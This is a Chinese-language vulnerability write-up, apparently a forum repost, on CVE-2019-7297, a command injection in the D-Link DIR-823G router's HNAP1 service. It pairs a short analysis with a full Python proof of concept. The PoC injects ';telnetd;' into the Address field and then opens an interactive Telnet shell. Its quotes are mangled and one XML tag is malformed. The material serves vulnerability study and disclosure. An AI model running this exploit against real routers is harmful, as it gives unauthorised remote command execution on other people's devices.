


# （CVE-2019-7297）D-Link DIR-823G 命令注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3382](https://www.zhihuifly.com/t/topic/3382)

# （CVE-2019-7297）D-Link DIR-823G 命令注入漏洞

## 一、漏洞简介

D-Link DIR 823G 1.02B03及之前的版本中存在命令注入漏洞，攻击者可通过发送带有shell元字符的特制/HNAP1请求利用该漏洞执行任意的操作系统命令。GetNetworkTomographyResult函数中调用system函数，执行的内容中包括不受信任的用户输入Address字段，攻击者可以远程执行任意命令。

## 二、漏洞影响

D-Link DIR 823G 1.02B03及之前的版本

## 三、复现过程

### 漏洞分析

漏洞原理中提到的GetNetworkTomographyResult函数是在goahead二进制文件中实现的。在function_list中找到对应的函数地址。

GetNetworkTomographyResult获取address，number，size参数，作为ping的参数。



```
ping address -c number -w number -s size > /tmp/ping.txt 2>>/tmp/ping.txt 
```

但在system之前并没有对这些外来参数进行检查，如果address为`;telnetd;`就能启动Telnet服务。可以看出这些参数都是通过apmib_get获取的，那么在之前一定有apmib_set进行设置，在IDA中查找关键字0x1b72，0x1b73，0x1b73，定位到apmib_set的位置，结合ghidra的反汇编代码，确定在`SetNetworkTomographySettings`函数中可以对这些参数进行设置。



### poc

```
import requests
from pwn import *

IP=‘192.168.0.1’

headers = requests.utils.default_headers()

headers[“User-Agent”] = “Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36”

headers[“SOAPAction”] = ‘“[http://purenetworks.com/HNAP1/SetNetworkTomographySettings](http://purenetworks.com/HNAP1/SetNetworkTomographySettings)”’

headers[“Content-Type”] = “text/xml; charset=UTF-8”

headers[“Accept”]="*/*"

headers[“Accept-Encoding”]=“gzip, deflate”

headers[“Accept-Language”]=“zh-CN,zh;q=0.9,en;q=0.8”

payload = ‘<?xml version=“1.0” encoding=“utf-8”?><soap:Envelope xmlns:xsi=“[http://www.w3.org/2001/XMLSchema-instance](http://www.w3.org/2001/XMLSchema-instance)” xmlns:xsd=“[http://www.w3.org/2001/XMLSchema](http://www.w3.org/2001/XMLSchema)” xmlns:soap=“[http://schemas.xmlsoap.org/soap/envelope/](http://schemas.xmlsoap.org/soap/envelope/)”>

<soap:Body>

<SetNetworkTomographySettings xmlns=“[http://purenetworks.com/HNAP1/](http://purenetworks.com/HNAP1/)”>

<Address>;telnetd;</Address>

<Number>4<Number>

<Size>4</Size>

</SetNetworkTomographySettings></soap:Body></soap:Envelope>’

r = requests.post(‘http://’+IP+’/HNAP1/’, headers=headers, data=payload)

print r.text

headers[“SOAPAction”] = ‘“[http://purenetworks.com/HNAP1/GetNetworkTomographyResult](http://purenetworks.com/HNAP1/GetNetworkTomographyResult)”’

payload = ‘<?xml version=“1.0” encoding=“utf-8”?><soap:Envelope xmlns:xsi=“[http://www.w3.org/2001/XMLSchema-instance](http://www.w3.org/2001/XMLSchema-instance)” xmlns:xsd=“[http://www.w3.org/2001/XMLSchema](http://www.w3.org/2001/XMLSchema)” xmlns:soap=“[http://schemas.xmlsoap.org/soap/envelope/](http://schemas.xmlsoap.org/soap/envelope/)”>

<soap:Body>

<GetNetworkTomographyResult xmlns=“[http://purenetworks.com/HNAP1/](http://purenetworks.com/HNAP1/)”>

</GetNetworkTomographyResult></soap:Body></soap:Envelope>’

r = requests.post(‘http://’+IP+’/HNAP1/’, headers=headers, data=payload)

print r.text `p=remote(IP,23)

p.interactive()` 
```